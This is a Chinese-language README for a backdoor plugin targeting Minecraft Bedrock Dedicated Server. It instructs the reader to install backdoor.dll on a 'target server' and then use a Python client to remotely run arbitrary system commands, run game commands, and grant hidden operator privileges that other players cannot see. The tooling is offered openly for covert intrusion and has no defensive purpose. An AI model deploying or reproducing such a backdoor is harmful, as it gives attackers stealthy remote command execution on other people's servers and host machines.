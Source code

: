 # backdoor

一个适用于Bedrock Dedicated Server的后门插件

## 使用
1. 将``backdoor.dll``安装到目标服务器
2. 待目标服务器开启后使用后门客户端``client.py``进行远控，以下是其使用方法

## 运行后门客户端
安装Python后在命令行中使用以下命令来运行程序：

```
python client.py
```

输入服务器IP和端口
启动程序时会提示你输入服务器的IP地址和端口号，格式为 IP地址 端口号（例如 127.0.0.1 19132）

示例：

```
Please input server ip:port like 127.0.0.1 19132
114.51.41.91 9810
```

客户端功能
客户端程序具有以下功能：

``scmd [cmd]`` - 执行系统命令
``gcmd [cmd]`` - 执行游戏命令
``perm [玩家名称:区分大小写] [等级: 0~3] [0: 客户端隐藏变化 | 1: 客户端显示变化]`` - 设置玩家权限级别
``q`` - 退出程序

请根据需要输入相应的命令来执行相应的操作。例如，要执行游戏命令``kick WillowSauceR``，输入以下命令：

```
>>> gcmd kick WillowSauceR
```

执行系统命令``taskkill /F /IM bedrock_server.exe``
```
>>> scmd taskkill /F /IM bedrock_server.exe
```

给游戏中的玩家设置权限
权限等级：0为普通玩家，大于0为OP
显示/隐藏：对其他玩家和自己隐藏权限变化，无法在游戏内发现
以下命令为玩家``WillowSauceR``设置了OP权限且对其他玩家隐藏
```
>>> perm WillowSauceR 1 0
```

要退出程序，输入以下命令：

```
>>> q
```
